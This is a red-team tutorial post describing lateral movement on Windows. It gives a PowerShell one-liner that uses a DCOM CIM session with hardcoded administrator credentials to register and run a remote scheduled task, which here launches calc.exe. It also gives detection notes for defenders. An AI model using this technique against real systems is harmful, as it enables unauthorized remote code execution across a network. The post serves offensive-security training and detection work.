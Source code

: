 ```yaml
---
layout: post
title: "wmi via newscheduledtask"
date: 2024-06-18
categories: lateral-movement
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /lateral-movement/
---
```


# WMI + NewScheduledTaskAction Lateral Movement

## Execution

On the victim system, let's run a simple loop to see when a new scheduled task gets added:

```csharp
$a=$null; while($a -eq $null) { $a=Get-ScheduledTask | Where-Object {$_.TaskName -eq "lateral"}; $a }
```

Now from the compromised victim system, let's execute code laterally:

{% code title="attacker@remote" %}
```csharp
$connection = New-Cimsession -ComputerName "dc-mantvydas" -SessionOption (New-CimSessionOption -Protocol "DCOM") -Credential ((new-object -typename System.Management.Automation.PSCredential -ArgumentList @("administrator", (ConvertTo-SecureString -String "123456" -asplaintext -force)))) -ErrorAction Stop; register-scheduledTask -action (New-ScheduledTaskAction -execute "calc.exe" -cimSession $connection -WorkingDirectory "c:\windows\system32") -cimSession $connection -taskname "lateral"; start-scheduledtask -CimSession $connection -TaskName "lateral"
```
{% endcode %}

Graphic showing both of the above commands and also the process ancestry on the target system:

![](<../../.gitbook/assets/Peek 2018-10-19 22-24.gif>)

## Observations

As usual, services.exe spawning unusual binaries should raise a wary defender's suspicion. You may also want consider monitoring for new scheduled tasks that get created on your systems:

![](<../../.gitbook/assets/Screenshot from 2018-10-19 22-35-13.png>)

![](<../../.gitbook/assets/Screenshot from 2018-10-19 22-59-12.png>)

{% hint style="info" %}
Sysmon config master version 64 from [https://github.com/SwiftOnSecurity/sysmon-config](https://github.com/SwiftOnSecurity/sysmon-config) does not log the calc.exe Process Creation event being spawned by the services.exe
{% endhint %}
@spotheplanet
